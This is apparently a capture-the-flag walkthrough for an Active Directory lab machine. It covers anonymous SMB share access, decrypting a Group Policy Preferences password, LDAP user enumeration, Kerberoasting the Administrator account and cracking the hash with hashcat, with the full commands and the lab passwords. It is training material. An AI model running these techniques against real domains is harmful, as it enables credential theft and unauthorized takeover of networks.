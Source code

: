 ![[{F21DF797-2581-4C84-B7BC-73B9F1EC028D}.png]]


# Enumeration

## Nmap
```bash
sudo nmap -sV -sC -oA nmap/scan 10.129.213.81
Nmap scan report for 10.129.213.81 (10.129.213.81)
Host is up (0.042s latency).
Not shown: 982 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-07 09:08:09Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-07T09:09:04
|_  start_date: 2025-06-07T08:46:49

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  7 05:09:12 2025 -- 1 IP address (1 host up) scanned in 71.15 seconds

```

### Enum the shares
To enums the shares with anonymous authentication we can use tool such `smbmap`
```bash
smbmap -H 10.129.213.81
```
![[Pasted image 20250607160315.png]]

or even `crackmapexec`
![[Pasted image 20250607160426.png]]

In both cases we can note that have `READ` access only in `Replication` share

We can access to this share using `smbclient` and download all its content 
```bash
smbclient //10.129.213.81/Replication -N                           
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```
under the path `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups` we can find the `Groups.xml` that contain the `cpassword` attribute (we see later) that contain the encrypted password of the user `SVC_TGS`

#### Group Policy Preferences (GPP) Passwords
When a new GPP is created, an .xml file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to. These files can include those used to:

- Map drives (drives.xml)
- Create local users
- Create printer config files (printers.xml)
- Creating and updating services (services.xml)
- Creating scheduled tasks (scheduledtasks.xml)
- Changing local admin passwords.

These files can contain an array of configuration data and defined passwords. The `cpassword` attribute value is **AES-256 bit encrypted**, but Microsoft [published the AES private key on MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN), which can be used to decrypt the password. Any domain user can read these files as they are stored on the SYSVOL share, and all authenticated users in a domain, by default, have read access to this domain controller share.

This was patched in 2014 [MS14-025 Vulnerability in GPP could allow elevation of privilege](https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30), to prevent administrators from setting passwords using GPP. The patch does not remove existing Groups.xml files with passwords from SYSVOL. If you delete the GPP policy instead of unlinking it from the OU, the cached copy on the local computer remains.

The XML looks like the following:
![[Pasted image 20250607122209.png]]

To decrypt the AES-256 we can use `gpp-decrypt` tool
```bash
gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

![[Pasted image 20250607161940.png]]


## FootHold
Now that we have a credential for `SVC_TGS` account try to check if we are able to connect into other shares
```bash
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.129.213.81
```
![[Pasted image 20250607162052.png]]

Now connect to the smb share `Users` and navigate under the user's desktop to find the user.txt flag 
```bash
smbclient  //10.129.213.81/Users -U "active.htb\SVC_TGS"
smb: \SVC_TGS\Desktop\> cd SVC_TGS\Desktop
smb: \SVC_TGS\Desktop\> get user.txt                    
```

## Privilege Escalation
We can query the ldap protocol to find other users in the DC.
```bash
ldapsearch -H LDAP://10.129.213.81  -x -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub '(&(objectCategory=person)(objectClass=User)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))' samaccountname | grep sAMAccountName
```

- `-s sub`: The `-s` option specifies the search scope. `sub` means a subtree search, including the base DN and all its child entries. **This is the most comprehensive search scope, as it traverses the entire directory tree below the base DN.**
- `'(&(objectCategory=person)(objectClass=User)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))'`: is an LDAP query to find all users object that are not **disable**.
	- `objectCategory=person`: Searches for objects in the category "person"
	- `objectClass=user` Narrows down to objects with  class of "user"
	- `(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))`: Excludes disabled accounts. The `userAccountControl` **attribute is a bit flag**; this part of the filter excludes accounts with the second bit set (which indicates a disabled account).

![[Pasted image 20250607152018.png]]

We can see the `Administartor` account is also active.

Now we can add `(serviceprincipalname=*/*)` in to the LDAP query to check if this account have `SPN` configured.
```bash
ldapsearch -H LDAP://10.129.213.81  -x -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub '(&(objectCategory=person)(objectClass=User)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))' serviceprincipalname | grep -B 1 servicePrincipalName
```

![[Pasted image 20250607154006.png]]
Its seems the `active.htb\administrator` account has been configured with a `SPN`.

We can check this with the `GrUsersPNs.py` script
![[Pasted image 20250607154336.png]]
Great this means we can perform a `kerberoasting` attack to retrieve the `TGS` ticket of administrator account
### Kerberoasting

To perform a `kerberoasting` attack we can use the same command above and adding the `-request` flag

```bash
GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.129.213.81 -request -outputfile Administrator_TGS
```

![[Pasted image 20250607154724.png]]

We can crack this TGS using `hashcat` with the `13100` module according with the "[hashcat table](https://hashcat.net/wiki/doku.php?id=example_hashes)".
```bash
hashcat -m 13100 Administrator_TGS /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20250607154948.png]]
Perfect now that we have the `Ticketmaster1968` password of Administrator account check, using `smbmap`, if we have access to other shares
![[Pasted image 20250607155231.png]]

Now all that remains for us to do is use `smbclient` navigate in the `USERS` share, under administrator's desktop and retrieve the admin flag.

```bash
smbclient //10.129.213.81/USERS -U Administrator%Ticketmaster1968
```

![[Pasted image 20250607162751.png]]

